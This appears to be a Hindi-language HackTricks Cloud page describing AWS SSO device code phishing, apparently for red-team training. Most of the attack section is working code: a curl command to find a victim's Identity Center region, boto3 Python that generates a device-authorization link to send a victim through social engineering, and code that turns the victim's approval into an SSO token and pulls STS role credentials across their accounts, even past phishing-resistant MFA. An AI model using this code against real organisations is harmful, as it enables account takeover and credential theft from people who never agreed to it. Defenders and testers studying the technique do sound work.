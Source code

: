 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}

## AWS Device Code Phishing

[**इस ब्लॉग पोस्ट**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) में प्रारंभिक रूप से प्रस्तावित, यह संभव है कि एक **लिंक** को एक उपयोगकर्ता को भेजा जाए जो AWS SSO का उपयोग कर रहा हो, और यदि **उपयोगकर्ता स्वीकार करता है** तो हमलावर **उपयोगकर्ता का प्रतिरूपण करने के लिए एक टोकन प्राप्त कर सकता है** और **Identity Center** में उपयोगकर्ता द्वारा एक्सेस किए जा सकने वाले सभी रोल्स तक पहुंच सकता है।

इस हमले को करने के लिए आवश्यकताएँ हैं:

* पीड़ित को **Identity Center** का उपयोग करना चाहिए
* हमलावर को पीड़ित द्वारा उपयोग किए गए **सबडोमेन** का पता होना चाहिए `<victimsub>.awsapps.com/start`

सिर्फ उपरोक्त जानकारी के साथ, **हमलावर उपयोगकर्ता को एक लिंक भेजने में सक्षम होगा** जो यदि **स्वीकार किया गया** तो **हमलावर को AWS उपयोगकर्ता** खाते पर **पहुंच प्रदान करेगा**।

### हमला

1. **सबडोमेन ढूंढना**

हमलावर का पहला कदम यह पता लगाना है कि पीड़ित कंपनी अपने Identity Center में कौन सा सबडोमेन उपयोग कर रही है। यह **OSINT** या **अनुमान + BF** के माध्यम से किया जा सकता है क्योंकि अधिकांश कंपनियां यहां अपने नाम या उनके नाम के एक संस्करण का उपयोग कर रही होंगी।

इस जानकारी के साथ, यह संभव है कि उस क्षेत्र को प्राप्त किया जाए जहां Identity Center को कॉन्फ़िगर किया गया था:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **पीड़ित के लिए लिंक उत्पन्न करें और भेजें**

पीड़ित को प्रमाणित करने के लिए AWS SSO लॉगिन लिंक उत्पन्न करने के लिए निम्नलिखित कोड चलाएं।\
डेमो के लिए, इस कोड को एक python कंसोल में चलाएं और इसे बंद न करें क्योंकि बाद में आपको टोकन प्राप्त करने के लिए कुछ ऑब्जेक्ट्स की आवश्यकता होगी:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using you awesome social engineering skills!

3. **प्रतीक्षा करें जब तक पीड़ित इसे स्वीकार नहीं करता**

यदि पीड़ित **पहले से ही AWS में लॉग इन था** तो उसे केवल अनुमतियों को स्वीकार करना होगा, यदि नहीं था, तो उसे **लॉगिन करना होगा और फिर अनुमतियों को स्वीकार करना होगा**।\
आजकल प्रॉम्प्ट इस तरह दिखता है:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO एक्सेस टोकन प्राप्त करें**

यदि पीड़ित ने प्रॉम्प्ट को स्वीकार कर लिया, तो इस कोड को चलाएं **उपयोगकर्ता का प्रतिरूपण करते हुए SSO टोकन उत्पन्न करने के लिए**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO access token **8 घंटे के लिए मान्य** है।

5. **उपयोगकर्ता का प्रतिरूपण करें**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### फ़िशिंग the unphisable MFA

यह जानना मजेदार है कि पिछला हमला **"unphisable MFA" (webAuth) का उपयोग करने पर भी काम करता है**। ऐसा इसलिए है क्योंकि पिछला **वर्कफ़्लो उपयोग किए गए OAuth डोमेन को कभी नहीं छोड़ता**। अन्य फ़िशिंग हमलों की तरह जहां उपयोगकर्ता को लॉगिन डोमेन को बदलना पड़ता है, इस मामले में डिवाइस कोड वर्कफ़्लो तैयार किया गया है ताकि **कोड डिवाइस द्वारा जाना जाता है** और उपयोगकर्ता एक अलग मशीन में भी लॉगिन कर सकता है। यदि प्रॉम्प्ट स्वीकार किया जाता है, तो डिवाइस, केवल **प्रारंभिक कोड को जानकर**, उपयोगकर्ता के लिए **क्रेडेंशियल्स प्राप्त करने** में सक्षम होगा।

अधिक जानकारी के लिए [**इस पोस्ट को देखें**](https://mjg59.dreamwidth.org/62175.html)।

### स्वचालित उपकरण

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## संदर्भ

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}

